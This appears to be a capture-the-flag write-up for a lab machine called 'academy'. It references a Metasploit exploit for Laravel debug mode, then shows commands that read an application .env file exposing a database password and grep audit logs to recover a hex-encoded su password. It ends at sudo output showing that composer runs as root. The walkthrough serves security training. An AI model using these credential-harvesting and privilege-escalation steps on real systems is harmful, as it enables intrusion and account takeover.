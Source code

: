 This is `Laravel's debug mode`. There is an `msf exploit`.

# Metasploit

![[Pasted image 20210505144026.png]]

# Find Credentials

```bash
$ cat /var/www/html/academy/.env
cat /var/www/html/academy/.env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

We can connect with this password on the `cry0l1t3` account.

# Privesc

## cry0l1t3

A password encrypted in `hexadecimal` is found in a `log file`.

```bash
$ cat /var/log/audit/* | grep 'comm="su"'
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

![[Pasted image 20210505151114.png]]

We can connect with this password on the `mrb3n` account.

## mrb3n

`mrb3n` can execute `/usr/bin/composer` as root.

```bash
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```
